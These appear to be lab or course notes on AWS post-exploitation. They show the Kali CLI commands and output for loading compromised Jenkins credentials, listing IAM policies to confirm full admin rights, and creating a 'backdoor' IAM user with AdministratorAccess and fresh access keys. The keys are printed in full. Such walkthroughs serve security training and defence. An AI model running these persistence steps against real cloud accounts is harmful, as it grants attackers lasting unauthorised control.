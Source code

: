 ### Discovering What We Have Access To

Attempt to list policy for initial access user first (discovered creds)

Configure an AWS profile with discovered creds.
```hlt:1
kali@kali:~$ aws configure --profile=CompromisedJenkins                     
AWS Access Key ID [None]: AKIAUBHUBEGIMU2Y5GY7
AWS Secret Access Key [None]: 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
Default region name [None]: us-east-1
Default output format [None]: 
```

Get username 
```hlt:1,jenkins:
kali@kali:~$ aws --profile CompromisedJenkins sts get-caller-identity
{
    "UserId": "AIDAUBHUBEGILTF7TFWME",
    "Account": "274737132808",
    "Arn": "arn:aws:iam::274737132808:user/system/jenkins-admin",
}
```

Username: jenkins-admin

Discover permissions of this acct.

Three ways permissions are attached 
1. **Inline Policy** - for single user acct
2. **Managed Policy Attached to User** - attached to one or more users
3. **Group Attached Policy** - attached to a group, which is assigned to user

Listing Policies and Group for User
```hlt:1,8,13
kali@kali:~$ aws --profile CompromisedJenkins iam list-user-policies --user-name jenkins-admin
{
    "PolicyNames": [
        "jenkins-admin-role"
    ]
}

kali@kali:~$ aws --profile CompromisedJenkins iam list-attached-user-policies --user-name jenkins-admin
{
    "AttachedPolicies": []
}

kali@kali:~$ aws --profile CompromisedJenkins iam list-groups-for-user --user-name jenkins-admin
{
    "Groups": []
}
```
- User has single inline policy 

List this policy for info
```hlt:1,10-12
kali@kali:~$ aws --profile CompromisedJenkins iam get-user-policy --user-name jenkins-admin --policy-name jenkins-admin-role
{
    "UserName": "jenkins-admin",
    "PolicyName": "jenkins-admin-role",
    "PolicyDocument": {
        "Version": "2012-10-17",
        "Statement": [
            {
                "Sid": "",
                "Effect": "Allow",
                "Action": "*",
                "Resource": "*"
            }
        ]
    }
}
```
- Our compromised credentials have full administrator access

### Creating Backdoor Account

Create user 
```hlt:1
kali@kali:~$ aws --profile CompromisedJenkins iam create-user --user-name backdoor                                  
{
    "User": {
        "Path": "/",
        "UserName": "backdoor",
        "UserId": "AIDAUBHUBEGIPX2SBIHLB",
        "Arn": "arn:aws:iam::274737132808:user/backdoor",
    }
}
```

Attach AWS managed [AdministratorAccess](https://docs.aws.amazon.com/IAM/latest/UserGuide/access_policies_job-functions.html#jf_administrator) policy
```
kali@kali:~$ aws --profile CompromisedJenkins iam attach-user-policy  --user-name backdoor --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
```

Create access and secret keys for backdoor user
```hlt:1
kali@kali:~$ aws --profile CompromisedJenkins iam create-access-key --user-name backdoor
{
    "AccessKey": {
        "UserName": "backdoor",
        "AccessKeyId": "AKIAUBHUBEGIDGCLUM53",
        "Status": "Active",
        "SecretAccessKey": "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",
    }
}
```

Finally, configure new profile in AWS CLI 
```hlt:1,7
kali@kali:~$ aws configure --profile=backdoor                                           
AWS Access Key ID [None]: AKIAUBHUBEGIDGCLUM53
AWS Secret Access Key [None]: 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
Default region name [None]: us-east-1
Default output format [None]:  

kali@kali:~$ aws --profile backdoor iam list-attached-user-policies --user-name backdoor
{
    "AttachedPolicies": [
        {
            "PolicyName": "AdministratorAccess",
            "PolicyArn": "arn:aws:iam::aws:policy/AdministratorAccess"
        }
    ]
}
```

Now we have a backdoor acct.
